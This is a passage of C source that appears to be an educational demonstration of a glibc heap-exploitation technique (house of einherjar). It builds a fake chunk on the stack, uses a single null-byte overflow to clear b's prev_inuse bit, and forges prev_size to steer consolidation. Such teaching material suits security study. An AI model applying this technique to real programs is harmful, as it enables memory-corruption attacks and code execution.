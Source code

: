 ```c
    printf("Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: %#x\n", real_a_size);

    // create a fake chunk
    printf("\nWe create a fake chunk wherever we want, in this case we'll create the chunk on the stack\n");
    printf("However, you can also create the chunk in the heap or the bss, as long as you know its address\n");
    printf("We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");
    printf("(although we could do the unsafe unlink technique here in some scenarios)\n");

    size_t fake_chunk[6];

    fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
    fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
    fake_chunk[2] = (size_t) fake_chunk; // fwd
    fake_chunk[3] = (size_t) fake_chunk; // bck
    fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
    fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize


    printf("Our fake chunk at %p looks like:\n", fake_chunk);
    printf("prev_size (not used): %#lx\n", fake_chunk[0]);
    printf("size: %#lx\n", fake_chunk[1]);
    printf("fwd: %#lx\n", fake_chunk[2]);
    printf("bck: %#lx\n", fake_chunk[3]);
    printf("fwd_nextsize: %#lx\n", fake_chunk[4]);
    printf("bck_nextsize: %#lx\n", fake_chunk[5]);

    // 2
    /* In this case it is easier if the chunk size attribute has a least significant byte with
        * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
        * the chunk includes the amount requested plus some amount required for the metadata. */
    b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);

    printf("\nWe allocate 0xf8 bytes for 'b'.\n");
    printf("b: %p\n", b);

    uint64_t* b_size_ptr = (uint64_t*)(b - 8);
    /* This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit*/

    printf("\nb.size: %#lx\n", *b_size_ptr);
    printf("b.size is: (0x100) | prev_inuse = 0x101\n");
    printf("We overflow 'a' with a single null byte into the metadata of 'b'\n");
    a[real_a_size] = 0; 
    printf("b.size: %#lx\n", *b_size_ptr);
    printf("This is easiest if b.size is a multiple of 0x100 so you "
            "don't change the size of b, only its prev_inuse bit\n");
    printf("If it had been modified, we would need a fake chunk inside "
            "b where it will try to consolidate the next chunk\n");

    // 3
    // Write a fake prev_size to the end of a
    printf("\nWe write a fake prev_size to the last %lu bytes of a so that "
            "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
    printf("Our fake prev_size will be %p - %p = %#lx\n", b-sizeof(size_t)*2, fake_chunk, fake_size);
```